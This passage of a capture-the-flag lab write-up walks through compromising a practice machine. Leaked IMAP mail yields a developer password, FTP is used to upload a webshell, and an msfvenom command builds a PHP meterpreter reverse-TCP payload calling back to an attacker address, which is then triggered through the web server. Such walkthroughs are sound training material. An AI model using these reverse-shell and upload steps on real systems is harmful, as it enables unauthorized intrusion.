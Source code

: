 It took me quit a long time to understand what these credentials where for. But
as the IMAP port is open we can connect to it with a mail client. We launch
evolution (already installed on Kali Linux) and configure it with the previous
information (note that the user is `paulbyrd`).

We found two emails in the `sent` directory. The first on contain a password for
the `developer` account.

> Hello administrator, I want to change this password for the developer account
>
> Username: developer
> Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
>
> Please notify me when you do it


The second one is a address to `low` and give us some hint about one of the next step.

> Hello low
>
> Your current task is to install, test and then erase every python module you
> find in our PyPI service, let me know if you have any inconvenience.

## FTP

The `developer` account credentials allow us to connect to the FTP service. We
see that we can write on the `dev` folder.

This also take me some time to figure out but we can access our uploaded file on
the `dev` environment accessible at [http://dev.sneakycorp.htb/test](http://dev.sneakycorp.htb/test).

Therefore we generate a simple PHP `meterpreter` using `msfvenom`: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f raw > lol.php`
and upload it on the FTP server.

    :::text
    write on ftp dev (webshell)
    kali@kali:~$ ftp 10.10.10.197
    Connected to 10.10.10.197.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.197:kali): developer
    331 Please specify the password.
    Password:
    230 Login successful.
    ftp> cd dev
    250 Directory successfully changed.
    ftp> put lol.php
    local: lol.php remote: lol.php
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    30687 bytes sent in 0.00 secs (7.3772 MB/s)

We run the `metasploit` handler and trigger our payload by browsing to [http://dev.sneakycorp.htb/lol.php](http://dev.sneakycorp.htb/lol.php).
This get us a shell as `www-data`.
